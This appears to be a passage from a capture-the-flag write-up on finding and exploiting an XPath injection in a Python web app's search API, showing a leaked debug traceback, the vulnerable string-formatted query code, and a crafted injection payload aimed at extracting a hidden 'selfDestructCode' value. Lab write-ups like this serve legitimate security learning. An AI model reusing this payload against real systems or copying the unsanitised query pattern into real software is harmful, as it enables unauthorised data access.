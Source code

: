 ```javascript
            method: "POST",
            body: JSON.stringify({
                search: search.value
            }),
            headers: {
                "Content-Type": "application/json"
            }
        })
..snip...
```

When sending an empty post request to the api discovered by looking at the javascript we get an error. The error seems to give some insight into the request being made on the back end.
```bash
Input:
─╼ $curl http://46.101.22.121:31926/api/search -X POST
```
```html
Output:
..snip...
<pre class="line before"><span class="ws"></span>def search():</pre>
<pre class="line current"><span class="ws">    </span>name = request.json.get(&quot;search&quot;, &quot;&quot;)</pre>
<pre class="line after"><span class="ws">    </span>query = &quot;/military/district/staff[name='{}']&quot;.format(name)</pre>
<pre class="line after"><span class="ws"></span> </pre>
<pre class="line after"><span class="ws">    </span>if tree.xpath(query):</pre>
<pre class="line after"><span class="ws">        </span>return {&quot;success&quot;: 1, &quot;message&quot;: &quot;This millitary staff member exists.&quot;}</pre>
...snip...
```


## Exploitation
Cleaning up the code so we can start understanding it easier. The only leak that wasn't included in that snippet is defining where tree is searching.

```python
def search():
	name = request.json.get("search", "")
	query = "/military/district/staff[name='{}']".format(name)
	tree = etree.parse('./military.xml')
	if tree.xpath(query):
		return {"success": 1, "message": "This millitary staff member exists."}
```

By creating a mock up, I can simulate my attacks locally. After trial and error I finally had some working syntax that could select only what I am looking for.

```python
name = "a'\] |/military/district/staff/selfDestructCode\[contains(text(),'\_')\] | /military/district/staff\[name='"
```
